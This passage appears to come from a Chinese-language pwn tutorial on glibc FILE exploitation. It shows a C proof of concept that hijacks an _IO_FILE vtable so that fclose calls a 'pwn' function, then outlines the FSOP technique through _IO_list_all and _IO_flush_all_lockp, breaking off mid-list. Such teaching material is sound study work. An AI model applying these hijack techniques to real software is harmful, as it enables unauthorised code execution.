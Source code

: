 ```c
    NULL, // seekoff
    NULL, // seekpos
    NULL, // setbuf
    NULL, // sync
    NULL, // doallocate
    NULL, // read
    NULL, // write
    NULL, // seek
    pwn,  // close
    NULL, // stat
    NULL, // showmanyc
    NULL, // imbue
};

int main(int argc, char * argv[])
{   
    FILE *fp;
    unsigned char *str;
    //申请_IO_FILE_plus结构体的大小的堆空间
    str = malloc(sizeof(FILE) + sizeof(void *));
    free(str);

    if (!(fp = fopen("/dev/null", "r"))) {
        perror("fopen");
        return 1;
    }
	//修改虚表
    *(unsigned long*)(str + sizeof(FILE)) = (unsigned long)funcs;
	//会触发虚表中的close函数
    fclose(fp);
    return 0;
}
```

## FSOP
`_IO_list_all`指针
没有涉及到文件操作时
```
_IO_list_all -> stderr，stderr._chain -> stdout，stdout._chain -> stdin
```
攻击思路：
伪造一块`_IO_FILE_plus`结构体替换原本的节点，在利用漏洞修改_IO_list_all的值为可控内存区域。
之后通过_IO_flush_all_lockp函数。刷新链表中的文件流，对每个FILE调用fflush，对应vtable中的_IO_overflow.
```c
int  
_IO_flush_all_lockp (int do_lock)  
{  
  ...  
  fp = (_IO_FILE *) _IO_list_all;  
  while (fp != NULL)  
  {  
       ...  
       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))  
               && _IO_OVERFLOW (fp, EOF) == EOF)	// 判断缓冲区是否有数据，有则刷新  
           {  
               result = EOF;  
          }  
        ...  
  }  
}
```
在如下情况时，这个函数会被系统调用
1.  libc执行abort时